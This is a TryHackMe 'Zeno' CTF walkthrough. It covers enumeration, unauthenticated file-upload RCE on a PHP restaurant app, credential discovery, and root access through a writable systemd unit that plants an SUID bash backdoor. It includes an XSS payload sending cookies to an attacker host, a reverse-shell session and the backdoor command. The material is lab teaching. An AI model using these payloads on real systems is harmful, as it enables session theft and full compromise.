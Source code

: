# Try Hack Me - Zeno

**Categories:** Security, RCE, OSCP  
**Difficulty:** Medium  

Commands used in this guide use the exported variable $IP (`export IP=10.10.4.12`) in place of the target machine's IP address.

## 1: Enumeration - rustscan, nmap, gobuster

Having launched the box, we run rustscan followed by an nmap version scan of the discovered ports (22, 12340) : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/zeno]
└─$ sudo nmap $IP -p22,12340 -sV -o nmap.version
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-22 17:01 EDT
Nmap scan report for 10.10.4.12
Host is up (0.100s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4 (protocol 2.0)
12340/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.03 seconds
```

Google and searchsploit reveal no relevant vulnerabilities for the discovered versions. Navigating to the application on 12340 shows a stock 404 page, so we continue to a gobuster scan of the application using dirbuster's medium wordlist, revealing an `/rms/` route that hosts the "Pathfinder Hotel Restaurant Management System" : 

```html
<h1><center>Welcome To Pathfinder Hotel Restaurant Management System!</center></h1>
```

A Google search for "Restaurant Management System PHP vulnerabilities" reveals a number of vulnerabilities in the application, including [XSS session hijacking](https://www.sevenlayers.com/index.php/264-restaurant-management-system-1-0-xss-session-hijack), [arbitrary file upload](https://www.sevenlayers.com/index.php/265-restaurant-management-system-1-0-arbitrary-file-upload) and [remote code execution](https://www.exploit-db.com/exploits/47520).

## 2. Dead end - persistent XSS, user sign up

After reading the outline of the arbitrary file upload vulnerability discovered above, I had assumed that the RCE vulnerability required authentication - this was wrong, but it meant that I started by looking at the XSS vulnerability. The application allows users to create an account (`/rms/login-register.php`) using their first name, last name and email address. After creating an account the new user receives a message from the administrator in the inbox section of the site (`/rms/inbox.php`) : 

```html
<CAPTION><h2>INBOX</h2></CAPTION>
<tr>
<th>From</th>
<th>Date Received</th>
<th>Time Received</th>
<th>Subject</th>
<th>Text</th>
</tr>

<tr><td>administrator</td><td>2020-12-08</td><td>03:16:13</td><td>sample</td><td width='350' align='left'>Sample Message</td></tr></table>
</div>
```

Here I assumed that we might be able to steal the administrators session cookie by creating a user with first name or last name of `<scr_pt>fetch('http:ATTACK-IP/?c='document.cookie)<//scr_pt>` - normally this wouldn't be much use in the context of a CTF, but the message received in the account inbox made me think that there may be some headless browser stuff going on to replicate an XSS vulnerability. This works for self-XSS when the user's first name is displayed at `/rms/member-index.php`, but administrator never calls home with their cookie.

## 3: Foothold - unauthenticated arbitrary file upload, RCE

After looking again at the RCE exploit script discovered in step 1, I realised that it hardcodes the session cookie required for file upload - unless there is kind of hardcoded superadmin session ID madness going on in the application, this is probably an indicator that this vulnerability does not require authentication. I didn't get on very well with the exploit script (it bugs due to formatting errors, it hardcodes a proxy address, it hardcodes a a load of unnecessary headers, etc.), so [I wrote a simplified version adapted for the box that uploads and activates a simple php reverse shell](./rms_exploit.py). Configure the LHOST, RHOST and RPORT variables at lines 11-13, start a listener on your LHOST port, and run the script - the reverse shell will connect to the listener, providing a session as the apache user : 

```console
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [ATTACK-IP] from (UNKNOWN) [10.10.4.12] 35120
sh-4.2$ id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

## 4: Privesc, apache -> edward - credential discovery

Catting `/etc/passwd` shows one non-system / non-root user edward. Catting the `config.php` file at `/var/www/html/rms/` gives plaintext credentials for the application database, but the password is not good for either edward or root. Sqlmap has already shown us that there is no relevant data for privesc in the db, and running `ps -auxf` shows that the MySql process is not running as root (preventing any kind of [user defined function privesc](https://redteamnation.com/mysql-user-defined-functions/)). Running out of ideas, we download [Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) from the attack machine and run it as the apache user, revealing :

* A writeable unit file at `/etc/systemd/system/zeno-monitoring.service`
* Plaintext credentials for a user "zeno" at `/etc/fstab`

The discovered credentials are also good for the edward user : 

```console
sh-4.2$ su edward
Password:
id
uid=1000(edward) gid=1000(edward) groups=1000(edward) context=system_u:system_r:httpd_t:s0
```

The user flag is as `/home/edward/user.txt` - you can use the same credentials to connect over SSH for a fully functional shell.

## 5: Privesc, edward -> root - sudo -l, writeable unit file

Running `sudo -l` as edward reveals that they can be reboot the machine, giving us the final piece of the puzzle required to exploit the writable unit file discovered by Linpeas : 

```console
sudo -l
User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
```

We can change the ExecStart key of the unit file to perform any action as root - in this case, we'll create an SUID bash binary at `/home/edward/bd`, allowing us to start a root shell session :

```console
[edward@zeno ~]$ cat /etc/systemd/system/zeno-monitoring.service 
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "cp /home/edward/bd /tmp/bd && chmod u+s /home/edward/bd"

[Install]
WantedBy=multi-user.target
```

We then use the edward user's sudo permissions to restart the box (`sudo /usr/sbin/reboot`), forcing the zeno-monitoring.service to run its ExecStart command. Reconnecting following the reboot, we find the backdoor binary at `/home/edward/bd` : 

```console
[edward@zeno ~]$ ls -l
total 948
-rwsr-xr-x. 1 root root   964536 Oct 24 02:52 bd
-rw-r-----. 1 root edward     38 Jul 26 21:13 user.txt
```

allowing us to start a root shell (don't forget the `-p` flag to preserve the SUID permissions when running bash) :

```console
[edward@zeno ~]$ ./bd -p
bd-4.2# whoami
root
```

The root flag is at `/root/root.txt`.
